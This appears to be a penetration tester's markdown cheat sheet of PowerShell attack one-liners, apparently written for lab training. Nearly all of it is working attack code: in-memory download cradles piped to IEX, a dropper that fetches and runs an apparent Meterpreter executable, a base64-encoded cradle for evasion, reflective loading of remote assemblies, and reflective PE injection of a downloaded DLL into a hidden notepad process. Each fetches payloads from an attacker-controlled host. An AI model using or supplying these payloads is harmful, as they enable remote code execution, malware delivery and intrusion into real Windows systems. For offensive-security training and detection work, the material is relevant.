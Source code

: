 ## Onliner


### Powershell
#ps1 #runner #cradle
Download cradle in memory:
```powershell
(New-Object System.Net.WebClient).DownloadString("http://192.168.49.155/run.txt") | IEX
```

#ps1 #runner #cradle #dropper #exe
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.186/met64.exe', 'C:\Windows\Tasks\met64.exe'); C:\Windows\Tasks\met64.exe
```


#ps1 #encoding #cradle
Encode download cradle:
```powershell
$text = "<download cradle>"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
# then to execute use powershell -enc <encoded_text>
powershell -enc KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAOQAuADEANQA1AC8AcgB1AG4ALgB0AHgAdAAiACkAIAB8ACAASQBFAFgA
```

#ps1 #encoding #hex #assembly
```powershell
$assemblyFile = "<path_to_assembly>"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$stringBuilder.Append("0x")
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
	$stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$hexDll = $stringBuilder.ToString() -join ""
$hexDll | Out-File C:\Users\Administrator\Desktop\hex.txt
```


#ps1 #reflection #runner 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.155/simple-runner.exe')
# If your class and method is public
$assem = [System.Reflection.Assembly]::Load($data)
[shellcode_runner_simple.Program]::Main("".Split())
```

#ps1 #reflection #runner #dll #managed #dll-managed
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.73/ClassRunner.dll')

[System.Reflection.Assembly]::Load($data).GetType("ClassRunner.Class1").GetMethod("runner").Invoke(0, $null)
```

#ps1 #injection #reflective-injection #remote-injection #runner #dll #unmanaged #dll-unmanaged #msfvenom
```powershell
Start-Process "C:\Windows\system32\notepad.exe" -WindowStyle Hidden
$bytes = (New-Object System.Net.WebClient).DownloadData("http://192.168.49.66/met.dll")
$procid = (Get-Process -Name notepad).Id[0]

IEX (New-Object System.Net.WebClient).DownloadString("http://192.168.49.66/Invoke-ReflectivePEInjection.ps1")

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```